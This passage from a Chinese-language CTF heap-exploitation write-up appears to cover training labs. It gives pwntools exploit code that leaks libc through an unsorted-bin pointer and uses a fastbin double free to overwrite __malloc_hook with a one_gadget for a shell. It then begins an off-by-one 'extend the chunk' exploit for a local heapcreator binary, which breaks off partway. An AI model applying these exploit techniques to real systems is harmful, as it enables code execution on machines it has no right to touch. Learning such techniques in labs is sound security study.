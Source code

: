 ```python
raise_flower(0x80, 'c'*8, '2') #2  8个字节填满第一格，打印的时候顺带着把第二格的bk打印出来。malloc时不会把chunk内容清空，这个bk就是这个chunk作为unsorted bin时的bk。 再然后，注意要用send发送，不要用sendline，sendline会多一个\n，会覆盖bk一字节
visit()
r.recvuntil('c'*8)
libc_addr = u64(r.recvuntil('\xff\x7f').ljust(8, '\x00')) - 0x3c4b78 # 0x3c4b78 = main_arena+88 - libc_base，偏移是固定的，gdb里算一下
log.success('libc_addr  =====> {:x}'.format(libc_addr))

# fastbin dup
raise_flower(0x60, 'dddd', '3') #3
raise_flower(0x60, 'eeee', '4') #4
raise_flower(0x60, 'ffff', '5') #5

remove(3)
remove(4)
remove(3)

fake_chunk_addr = libc_addr + 0x3c4b10 - 0x23  # __malloc_hook
raise_flower(0x60, p64(fake_chunk_addr), '6') #6
raise_flower(0x60, 'gggg', '4') #7
raise_flower(0x60, 'hhhh', '5') #8
p = 'a'*19 + p64(libc_addr + 0x4527a) # one_gadget 恰好可以，不行的话就malloc_hook + __realloc_hook + one_gadget
# debug()
raise_flower(0x60, p, '6') #9
r.recvuntil('Your choice :')
r.sendline('1')

r.interactive()
```



# lab13

> 考点：Extend the chunk

漏洞点

![image-20220918102611660](/assets/img/2022/image-20220918102611660.png)

off-by-one

exp:

```python
from pwn import *


r = process('./heapcreator')
elf = ELF('./heapcreator')


context.log_level='debug'
context.terminal = ['tmux', 'splitw', '-h']
def debug(cmd=''):
    gdb.attach(r, cmd)
    pause()

def create(size, context):
    r.recvuntil('Your choice :')
    r.sendline('1')
    r.recvuntil('Size of Heap :')
    r.sendline(str(size))
    r.recvuntil('Content of heap:')
```